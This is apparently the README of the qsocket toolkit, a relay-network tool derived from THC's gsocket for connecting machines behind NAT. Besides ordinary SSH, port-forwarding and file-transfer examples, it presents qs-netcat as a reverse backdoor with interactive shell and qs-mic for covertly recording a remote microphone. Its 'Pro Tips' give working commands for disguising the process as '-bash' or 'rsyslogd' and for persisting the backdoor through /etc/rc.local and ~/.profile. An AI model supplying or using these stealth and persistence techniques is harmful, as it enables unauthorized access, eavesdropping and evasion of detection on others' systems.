

# Quantum Socket Toolkit
<div align="center">
  
  <br>
  <br>


  [![GitHub All Releases][release-img]][release]
  [![Build][workflow-img]][workflow]
  [![Issues][issues-img]][issues]
  ![Docker Pulls][docker-pulls]
  [![License: MIT][license-img]][license]
</div>

[release]: https://github.com/qsocket/qsocket/releases
[release-img]: https://img.shields.io/github/v/release/qsocket/qsocket
[downloads]: https://github.com/qsocket/qsocket/releases
[downloads-img]: https://img.shields.io/github/downloads/qsocket/qsocket/total?logo=github
[issues]: https://github.com/qsocket/qsocket/issues
[issues-img]: https://img.shields.io/github/issues/qsocket/qsocket?color=red
[docker-pulls]: https://img.shields.io/docker/pulls/qsocket/qsocket?logo=docker&label=docker%20pulls
[license]: https://raw.githubusercontent.com/qsocket/qsocket/master/LICENSE
[license-img]: https://img.shields.io/github/license/qsocket/qsocket.svg
[workflow-img]: https://github.com/qsocket/qsocket/actions/workflows/main.yml/badge.svg
[workflow]: https://github.com/qsocket/qsocket/actions/workflows/main.yml
[qsrn]: https://www.qsocket.io/qsrn/


The Quantum Socket Toolkit allows two system behind NAT/Firewall to establish a TCP/TLS connection with each other. 

The qsocket library locally derives a universally unique identifier (UUID) and connects two devices through the Quantum Socket Relay Network [(QSRN)][qsrn] regardless and independent of the network layers, local IP Address or geographical location. The entire qsocket project is ported from the original **[gsocket](https://github.com/hackerschoice/gsocket) toolkit of THC**. 

## But Why?
So why did you reinvent the wheel? Simply because we wanted our own wheel :) Due to several design choices of THC and the nature of the project we were not comfortable using the GSRN for our own business. So we decided to create our own version to our own liking. We also wanted to modernize the project by porting it to Go/Rust, add new features, more platform support, and scalability.

<div align="center">
  
</div>

The Quantum Socket Toolkit comes with a set of tools:
* **qsocket** - Redirects the traffic of an existing program (binary) over the QSRN. It does so by hooking fundamental socket libraries inside libc using LD_PRELOAD method. (Experimental)
* [**qs-netcat**](https://github.com/qsocket/qs-netcat) - Netcat on steroids. Turn netcat into an TLS encrypted reverse backdoor via TOR (optional) with a true PTY/interactive command shell (```qs-netcat -s MySecret -i```), integrated file-transfer, redirect traffic or give somebody temporary shell access.
* [**qs-mic**](https://github.com/qsocket/qs-mic) - Access (record audio) the microphone devices of a remote system. (```qs-mic -s MySecret -d 10```)
* ...many more examples and tools.

## Installation

|     Tool      |                          **Build From Source**                           |                    **Binary Release**                     |
| :-----------: | :----------------------------------------------------------------------: | :-------------------------------------------------------: |
|  **qsocket**  | ```git clone https://github.com/qsocket/qsocket && cd qsocket && make``` |  [Download](https://github.com/qsocket/qsocket/releases)  |
| **qs-netcat** |           ```go install github.com/qsocket/qs-netcat@master```           | [Download](https://github.com/qsocket/qs-netcat/releases) |
|  **qs-mic**   |       ```cargo install --git https://github.com/qsocket/qs-mic```        |  [Download](https://github.com/qsocket/qs-mic/releases)   |
|  **qs-lite**  |       ```cargo install --git https://github.com/qsocket/qs-lite```       |  [Download](https://github.com/qsocket/qs-lite/releases)  |

***Docker Install***

[](https://hub.docker.com/r/qsocket/qsocket/)

```bash
docker pull qsocket/qs-netcat
docker run -it qsocket/qs-netcat -h
```


### Supported Platforms
Qsocket toolkit supports 12 platforms on 11 architecture, check **Supported Platforms** below for detailed table.

<details>
<summary>Supported Platforms</summary>

|     Tool      | **Linux** | **Windows** | **Darwin** | **FreeBSD** | **OpenBSD** | **NetBSD** | **Android** | **IOS** | **Solaris** | **Illumos** | **Dragonfly** | **AIX** |
| :-----------: | :-------: | :---------: | ---------- | ----------- | ----------- | ---------- | ----------- | ------- | ----------- | ----------- | ------------- | ------- |
|  **qsocket**  |     ✅     |      ❌      | ✅          | ✅           | ✅           | ✅          | ❌           | ❌       | ❌           | ❌           | ❌             | ❌       |
| **qs-netcat** |     ✅     |      ✅      | ✅          | ✅           | ✅           | ✅          | ✅           | ✅       | ✅           | ✅           | ✅             | ✅       |
|  **qs-lite**  |     ✅     |      ✅      | ✅          | ✅           | ✅           | ✅          | ✅           | ✅       | ✅           | ✅           | ✅             | ✅       |
|  **qs-mic**   |     ✅     |      ✅      | ✅          | ✅           | ✅           | ✅          | ❌           | ❌       | ❌           | ❌           | ❌             | ❌       |
| ~**qs-cam**~  |     🚧     |      🚧      | 🚧          | 🚧           | 🚧           | 🚧          | 🚧           | 🚧       | 🚧           | 🚧           | 🚧             | 🚧       |

</details>

---

## Examples

https://user-images.githubusercontent.com/17179401/224060762-e0f121f6-431b-4eb5-8833-4a5d533003de.mp4

<details>
<summary>RDP connection over QSRN</summary>

https://user-images.githubusercontent.com/17179401/213314447-65ecaf43-89fd-48bd-a242-3345f6baf185.mov

</details>

<details>
<summary>ADB access over QSRN</summary>

https://user-images.githubusercontent.com/17179401/216651601-6ddc8ddf-7248-4c2b-bd77-00f00f773c80.mov

</details>

**Usage:**

- SSH from *Workstation B* to *Workstation A* through any firewall/NAT
```
$ qs-netcat -f "localhost:22" -l  # Workstation A
$ qsocket ssh root@qsocket        # Workstation B
```

- Log in to Workstation A from Workstation B through any firewall/NAT
```
$ qs-netcat -l -i   # Workstation A
$ qs-netcat -i      # Workstation B
```

- Transfer files from *Workstation B* to *Workstation A*
```
$ qs-netcat -q -s MySecret -l > file.txt     # Workstation A
$ qs-netcat -q -s MySecret < file.txt        # Workstation B
```

- Port forward. Access 192.168.6.7:22 on Workstation's A private LAN from Workstation B:
```
$ qs-netcat -l -f 192.168.6.7:22    # Workstation A
$ qs-netcat -f :2222                # Workstation B
```

- In a new terminal on Workstation B execute:
```
ssh -p 2222 root@127.0.0.1        # Will ssh to 192.168.6.7:22 on Workstation's A private LAN
```

- Execute any command (nc -e style) on *Workstation A*
```
$ qs-netcat -l -e "echo hello world; id; exit"   # Workstation A
$ qs-netcat                                      # Workstation B
```

Another example: Spawn a new docker environment deep inside a private network
```
# Start this on a host deep inside a private network
qs-netcat -il -e "docker run --rm -it kalilinux/kali-rolling"
```

Access the docker environment deep inside the private network from anywhere in the world:
```
qs-netcat -i
```
Listen in on a remote computer microphone for 10 seconds
```
$ qs-mic -l -s MySecret           # Workstation A
$ qs-mic -d 10 -s MySecret --play # Workstation B
```
Access entirety of Workstation A's private LAN (Sock4/4a/5 proxy)
```
$ qs-netcat -l -f :22 -s MySecret                                        # Workstation A
$ ssh -D 9090 -o ProxyCommand='qs-netcat -s MySecret' root@doesnotmatter # Workstation B

Access www.google.com via Workstation A's private LAN from your Workstation B:
$ curl --socks4a 127.1:9090 http://www.google.com
```

Mount a remote folder using sshfs and qs-netcat
```
$ qs-netcat -l -f :22 -s MySecret # Workstation A
$ qs-netcat -f :9090 -s MySecret  # Workstation B
$ sudo sshfs -o allow_other,default_permissions -p 9090 root@localhost:/remote_dir /mnt/local_dir # Workstation B
```

**Pro Tips**
- Hide your arguments (argv)

Pass the arguments by environment variable (QS_ARGS) and use a bash-trick to hide qs-netcat binary in the process list:
```
$ export QS_ARGS="-s MySecret -l -i -q"
$ exec -a -bash ./qs-netcat &     # Hide as '-bash'.
$ ps alxww | grep qs-netcat

$ ps alxww | grep -bash
  1001 47255     1   0  26  5  4281168    436 -      SNs    ??    0:00.00 -bash
```

- SSH login to remote workstation
```
# On the remote workstation execute:
qs-netcat -s MySecret -l -f 192.168.6.7:22
```
or
```
# Access 192.168.6.7 via ssh on the remote network from your workstation:
ssh -o ProxyCommand='qs-netcat -q -s MySecret' root@doesnotmatter
```

- Retain access after reboot
The easiest way to retain access to a remote system is by using [the automated deploy script](https://github.com/qsocket/qs-deploy). Alternatively the following can be used to achieve the same:
Combine what you have learned so far and make your backdoor restart after reboot (and as a hidden service obfuscated as *rsyslogd*). Use any of the start-up scripts, such as */etc/rc.local*:
```
$ cat /etc/rc.local
#! /bin/sh -e

QS_ARGS="-s MySecret -l -i -q" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /usr/local/bin/qs-netcat"

exit 0
```
Not all environment variables are set during system bootup. Set some variables to make the backdoor more enjoyable: *TERM=xterm-256color* and *SHELL=/bin/bash* and *HOME=/root*. The startup script (*/etc/rc.local*) uses */bin/sh* which does not support our *exec -a* trick. Thus we use */bin/sh* to start */bin/bash* which in turn does the *exec -a* trick and starts *qs-netcat*. Puh. The qs-netcat process is hidden (as *rsyslogd*) from the process list. Read [how to enable rc.local](https://linuxmedium.com/how-to-enable-etc-rc-local-with-systemd-on-ubuntu-20-04/) if */etc/rc.local* does not exist.  

Alternatively install qs-netcat as a [systemd service](examples/systemd-root-shell).

Alternativly and if you do not have root privileges then just append the following line to the user's *~/.profile* file. This will start qs-netcat (if it is not already running) the next time the user logs in. There are [many other ways to restart a reverse shell after system reboot](https://www.qsocket.io/deploy):
```
killall -0 qs-netcat 2>/dev/null || (QS_ARGS="-s MySecret -l -i -q" SHELL=/bin/bash exec -a -bash /usr/local/bin/qs-netcat)
```
---
**Crypto / Security Mumble Jumble**
- The connections are **NOT** end-2-end encrypted. This means the operators of the QSRN are able to see the flowing traffic. **But** you can always use your own encryption, QSRN is just a relay network.
- The session key is 128 bit digest of the given secret.
- A brute force attack against a weak secrets requires a new TCP connection for every guess. But QSRN contains a strong load balancer which is limiting the consecutive connection attempts.
- Do not use stupid passwords like 'password123'. Malice might pick the same (stupid) password by chance and connect. If in doubt use *qs-netcat -g* to generate a strong one. Alice's and Bob's password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
- If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
- Assume Alice shares the same password with Bob and Malice. When Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) can not tell if he is connecting to Alice or to Malice.

---

```
If gs-netcat is a germanic battle axe... than qs-netcat is a turkish döner knife ᕕ(⌐■_■)ᕗ ♪♬ 
```